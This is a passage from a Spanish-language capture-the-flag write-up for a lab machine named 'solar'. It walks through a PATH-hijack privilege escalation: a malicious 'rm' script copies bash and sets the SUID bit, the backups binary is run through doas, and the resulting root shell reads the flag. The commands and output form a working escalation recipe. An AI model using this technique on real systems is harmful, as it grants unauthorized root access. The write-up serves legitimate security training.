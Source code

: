 ```bash
/usr/bin/mysqldump --databases %s > /tmp/temp.sql && /usr/bin/gzip /tmp/temp.sql -c > %s && rm /tmp/temp.sql
```

Como podemos utilizar nuestra variable de entorno `PATH` mientras ejecutamos el binario `backups` que utiliza la librería `libbackup.so`, aprovechamos esto para escalar privilegios.

La variable `PATH` de `julian` ya tiene diferentes carpetas donde podemos escribir.

```bash
julian@solar:~$ echo $PATH
/home/julian/.nvm/versions/node/v22.7.0/bin:/home/julian/.local/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Creamos un fichero `rm` ejecutable; es el único binario que se ejecuta sin un path absoluto en la librería `libbackup.so`.

```bash
julian@solar:~$ nano .local/bin/rm

julian@solar:~$ cat .local/bin/rm
#!/bin/bash

cp /bin/bash /tmp/
chmod u+s /tmp/bash

julian@solar:~$ chmod +x .local/bin/rm
```

Ejecutamos el binario `backups` con `doas` utilizando la contraseña de `julian` y la base de datos que existe. Esto último es importante porque, si no, nunca llegará a ejecutar el `rm`.

```bash
julian@solar:~$ doas /usr/local/bin/backups solar_energy_db
doas (julian@solar) password: 
Backup completed successfully: /var/www/sunfriends.nyx/database.sql.gz

julian@solar:~$ ls -la /tmp/bash 
-rwsr-xr-x 1 root root 1265648 sep  4 22:08 /tmp/bash
```

Utilizando el binario `bash` con SUID, podemos acceder como `root` y leer la flag.

```bash
julian@solar:~$ /tmp/bash -p

bash-5.2# cat /root/root.txt 
44d**************************5f5
```
